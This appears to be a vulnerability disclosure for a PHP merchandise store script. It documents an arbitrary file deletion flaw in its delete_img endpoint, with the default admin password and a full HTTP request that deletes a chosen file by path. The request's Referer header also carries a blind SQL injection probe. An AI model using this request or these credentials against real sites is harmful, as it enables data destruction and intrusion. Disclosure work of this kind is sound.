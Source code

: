 # Merchandise Online Store v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/classes/Master.php?f=delete_img

Vulnerability location: /vloggers_merch/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shel.php file in the root directory

```sql
POST /vloggers_merch/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/vloggers_merch/admin/?page=product/manage_product&id=5%27%20and%20length(database())%20=17%20--+
Content-Length: 55
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close

path=C%3A%2Fxampp%2Fhtdocs%2Fvloggers_merch%2Fshell.php
```

The file path needs to be encoded by url
![image](https://user-images.githubusercontent.com/54017627/166877984-f936ed3a-5710-4482-b086-ffcf28f414a0.png)


At present, the shell.php file is still in the root directory of the website, when we send a request to delete the shell.php file
![image](https://user-images.githubusercontent.com/54017627/166878043-b939040f-0d9b-4ec6-8de2-ca2f757ccd23.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.
![image](https://user-images.githubusercontent.com/54017627/166878088-e1100326-6a36-4e38-9921-fdd8f181a0b8.png)


By this time, shell.php has been deleted.
![image](https://user-images.githubusercontent.com/54017627/166878117-b67250be-3bc5-4e5e-b0d9-2c6e62398512.png)


